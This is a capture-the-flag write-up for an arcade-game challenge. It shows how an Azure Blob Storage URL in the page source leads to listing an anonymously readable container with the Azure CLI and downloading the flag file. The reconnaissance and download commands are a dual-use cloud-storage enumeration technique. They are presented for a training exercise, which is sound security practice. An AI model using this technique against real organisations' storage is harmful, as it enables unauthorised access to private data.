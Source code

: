 # EPT ARCADE GAME

## Description
You are welcome to play the 2024 EPT arcade game. We hope you enjoy it!

arcadegame.ept.gg

## Solution

The game is a simple game that one can play. Looking at the index we can see a interesting url: `https://a8261cebfbaccblob.blob.core.windows.net/private/ept.svg`. 

From this we can see that the game is hosted on Azure Blob Storage. We can use the Azure CLI to list the blobs in the container.
```bash
❯  az storage blob list --account-name a8261cebfbaccblob --container-name private --output table

There are no credentials provided in your command and environment, we will query for account key for your storage account.
It is recommended to provide --connection-string, --account-key or --sas-token in your command as credentials.

You also can add `--auth-mode login` in your command to use Azure Active Directory (Azure AD) for authorization if your login account is assigned required RBAC roles.
For more information about RBAC roles in storage, visit https://docs.microsoft.com/azure/storage/common/storage-auth-aad-rbac-cli.

In addition, setting the corresponding environment variables can avoid inputting credentials in your command. Please use --help to get more information about environment variable usage.

Skip querying account key due to failure: Please run 'az login' to setup account.
Name              Blob Type    Blob Tier    Length    Content Type              Last Modified              Snapshot
----------------  -----------  -----------  --------  ------------------------  -------------------------  ----------
ept.png           BlockBlob    Hot          3281      application/octet-stream  2024-10-19T19:04:15+00:00
ept.svg           BlockBlob    Hot          1577      image/svg+xml             2024-10-19T19:04:15+00:00
flag-1s-h3r3.txt  BlockBlob    Hot          37        application/octet-stream  2024-10-19T19:04:15+00:00
```

Here we can see that there is a flag in the container. We can download it using the Azure CLI again.
```bash
az storage blob download --account-name a8261cebfbaccblob --container-name private --name flag-1s-h3r3.txt --file ./flag-1s-h3r3.txt
```
